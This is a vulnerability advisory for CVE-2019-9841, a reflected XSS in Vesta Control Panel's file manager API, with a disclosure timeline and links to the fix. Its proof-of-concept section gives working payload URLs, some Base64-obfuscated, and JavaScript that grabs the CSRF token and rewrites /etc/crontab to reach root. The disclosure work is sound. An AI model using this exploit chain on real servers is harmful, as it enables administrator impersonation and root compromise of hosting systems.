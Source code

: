 ```yaml
---
title: '[CVE-2019-9841] Vesta Control Panel 0.9.8-23 — Reflected XSS in file manager API'
description: The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application.
tags: [CVE, Vesta Control Panel, XSS]
advisory:
  discovered: 2019-03-13
  product:
    name: Vesta Control Panel
    url: https://vestacp.com/
  versions:
    - 0.9.8-23
  tested_versions_only: false
  cve: CVE-2019-9841
---
```


## Abstract

The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application. This allows an attacker to impersonate the users of the control panel by tricking them to follow a specially crafted link while authenticated to the web application.

VestaCP users are actual system users and they have the right to manage several services on the hosting server, for example they can create and manage new databases, edit their own crontab, create and manage new mail accounts, etc. They are created by the administrator to whom VestaCP grants full access. This means that triggering the XSS from an administration session could allow an attacker to obtain root access on the hosting server.

## Details

A PHP script located at `/file_manager/fm_api.php` supposedly provides the API for the file managers plugins that can be installed in VestaCP. The script performs the requested operation then returns the result as a JSON string using `text/html` as the content type, often including an error message that reflects some of the provided arguments. By triggering an error using arguments that include a specially crafted HTTP payload it is possible to run arbitrary JavaScript code. For example:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=alert(1)+/>
```

Produces:

```json
{"result":false,"message":"Error: invalid path \/home\/admin\/<img src=x onerror=alert(1) \/>"}
```

Since the output is a JSON string, some characters are `\`-escaped. It is possible to overcome this limitation by deploying the payload as a Base64 string, for example the above is equivalent to:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('YWxlcnQoMSk='))+/>
```

This works out-of-the-box with Firefox and Edge, while Safari and Chrome block the script execution as they detect a possible XSS attempt. Hopefully some smarter payload will be able to bypass their XSS auditors.

## PoC: from XSS to root access

VestaCP acts as a wrapper around several system-level operations, the easiest way for an administrator to run a command as `root` is probably to alter the `/etc/crontab` file via the `/edit/server/cron/` page.

For example this cron job creates a file in the web server root as superuser:

```
* * * * * root id >/usr/local/vesta/web/proof
```

Most of the pages in the VestaCP web application employ a CSRF token, so in order to submit the POST form, the token must be obtained by parsing the HTML.

The following JavaScript function replaces `/etc/crontab` and restarts the cron daemon:

```js
(async () => {
    // fetch the CSRF token
    const request = await fetch('/', {credentials: 'include'});
    const text = await request.text();
    const token = text.match(/token="([^"]+)"/)[1];

    // prepare the payload
    const payload = 'id >/usr/local/vesta/web/proof';
    const config = encodeURIComponent(`* * * * * root ${payload}\n`);

    // replace the cron config file
    fetch('/edit/server/cron/', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'content-type': 'application/x-www-form-urlencoded'
        },
        body: `token=${token}&v_config=${config}&v_restart=on&save=Save`
    });
})();
```

For completeness, this is the URL that the victim administrator needs to follow in order to trigger the PoC:

<!-- C-u M-| terser | base64 -w0 | sed 's/+/%2b/g' -->

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('KGFzeW5jKCk9Pntjb25zdCByZXF1ZXN0PWF3YWl0IGZldGNoKCIvIix7Y3JlZGVudGlhbHM6ImluY2x1ZGUifSk7Y29uc3QgdGV4dD1hd2FpdCByZXF1ZXN0LnRleHQoKTtjb25zdCB0b2tlbj10ZXh0Lm1hdGNoKC90b2tlbj0iKFteIl0rKSIvKVsxXTtjb25zdCBwYXlsb2FkPSJpZCA%2bL3Vzci9sb2NhbC92ZXN0YS93ZWIvcHJvb2YiO2NvbnN0IGNvbmZpZz1lbmNvZGVVUklDb21wb25lbnQoYCogKiAqICogKiByb290ICR7cGF5bG9hZH1cbmApO2ZldGNoKCIvZWRpdC9zZXJ2ZXIvY3Jvbi8iLHtjcmVkZW50aWFsczoiaW5jbHVkZSIsbWV0aG9kOiJQT1NUIixoZWFkZXJzOnsiY29udGVudC10eXBlIjoiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIn0sYm9keTpgdG9rZW49JHt0b2tlbn0mdl9jb25maWc9JHtjb25maWd9JnZfcmVzdGFydD1vbiZzYXZlPVNhdmVgfSl9KSgpOwo='))+/>
```

After one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Timeline

2019-03-15
: Disclosed to the VestaCP team.

2019-03-15
: MITRE assigns [CVE-2019-9841][cve] to this vulnerability.

2019-04-12
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/c28c5d29a3c61bc8110c11349e3f2309cd537cfa) the vulnerability.

2019-04-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/e674bf14fd401f419223f1dd06a6e381a3c188a2) version 0.9.8-24.

[cve]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9841
